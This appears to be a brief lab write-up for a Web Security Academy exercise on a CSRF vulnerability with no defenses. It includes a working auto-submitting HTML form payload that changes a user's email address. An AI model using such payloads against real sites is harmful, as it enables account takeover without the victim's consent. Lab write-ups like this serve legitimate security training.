 # Lab: CSRF vulnerability with no defenses

URL: https://0aee00bd04ba7c05834db57f00b60005.web-security-academy.net/

![](./Images/img1.png)

URL: https://0aee00bd04ba7c05834db57f00b60005.web-security-academy.net/post?postId=5

![](./Images/img2.png)

<br>

# Exploitation:


Used this site:

```
https://security.love/CSRF-PoC-Genorator/
```

Payload:

```
<html><form enctype="application/x-www-form-urlencoded" method="POST" action="https://0a38001903fd0f4780dc1cee00c50021.web-security-academy.net/my-account/change-email"><table><input type="text" value="test@thehub.com" name="email"><script>document.forms[0].submit();</script></table></form></html>
```

![](./Images/img3.png)

![](./Images/img4.png)